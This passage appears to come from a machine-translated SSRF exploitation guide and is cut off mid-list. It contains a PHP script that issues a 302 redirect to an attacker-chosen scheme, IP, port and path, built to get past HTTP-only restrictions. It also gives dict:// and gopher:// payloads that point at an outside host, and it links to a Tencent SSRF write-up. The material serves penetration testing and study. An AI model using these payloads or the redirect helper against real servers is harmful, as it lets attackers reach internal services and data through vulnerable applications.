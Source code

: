 

Requesting a non-HTTP port can return banner information.


Or you can use the 302 jump to bypass the limitations of the HTTP protocol.


Auxiliary script


```php

<?php

$ip = $_GET['ip'];

$port = $_GET['port'];

$scheme = $_GET['s'];

$data = $_GET['data'];

header("Location: $scheme://$ip:$port/$data");

?>

```



[Tencent SSRF vulnerability (very good use point) with script] (https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)


## Agreement Utilization


- Dict agreement


    ```

    dict://fuzz.wuyun.org:8080/helo:dict

    ```



- Gopher protocol


    ```

    gopher://fuzz.wuyun.org:8080/gopher

    ```



- File protocol


    ```
